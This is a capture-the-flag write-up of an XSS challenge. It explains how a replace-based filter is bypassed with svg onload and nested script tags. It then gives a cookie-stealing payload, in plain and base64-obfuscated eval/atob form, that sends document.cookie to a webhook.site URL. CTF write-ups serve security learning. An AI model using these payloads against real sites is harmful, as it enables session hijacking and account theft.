





## Description

///caption
///
This challenge is solved by my teammate, `Jin_707`. This writeup is written by `Jin_707`.

## Solution
From the challenge description, we can see this should be an XSS challenge, and the link also leads us to a YouTube video introducing XSS. Since source code is provided, so we move on to check the source code first (important to understand how the website works and where you should inject the payload!)


///caption
///
At first, we can see that the filters implemented are quite strong which checks for all caps and  will replace it. 


///caption
///
However, there are still some tags that are not being filtered like `<svg onload=alert(1)>` When doing the writeup i also found that this works `<scr<script>ipt>alert(1)</script>` because the sanitization is done by using replace, so the system will read through our payload and replace only `<script>` into empty making the payload to become `<script>alert(1)</script>`.


///caption
/// 
Don’t forget to check until the end of the source code, we can see that the `bot.js` will be visiting the endpoint `/report`, which is where we should inject our payload on. <br>   
Since XSS is being triggered, we can just use the working payload and get the cookies as usual. `iFrame` is used to create a small webpage inside the web app, then supply with the unique URL from https://webhook.site/. <br>   

Payload:
```javascript {frame="none"}
<svg/onload=document.write("<iframe src='https://webhook.site/ccffcd19-da9c-4b78-a725-7377e2cab03b?cookie="+document.cookie+"'></iframe>");>
```

But just to avoid any hiccups and out of my own habits, I turn the context into base64 encoded strings and decode it back with `eval` + `atob`. Final payload: 
```javascript {frame="none"}
<svg/onload=
eval(atob("ZG9jdW1lbnQud3JpdGUoIjxpZnJhbWUgc3JjPSdodHRwczovL3dlYmhvb2suc2l0ZS9jY2ZmY2QxOS1kYTljLTRiNzgtYTcyNS03Mzc3ZTJjYWIwM2I/Y29va2llPSIrZG9jdW1lbnQuY29va2llKyInPjwvaWZyYW1lPiIpOw=="))>
```

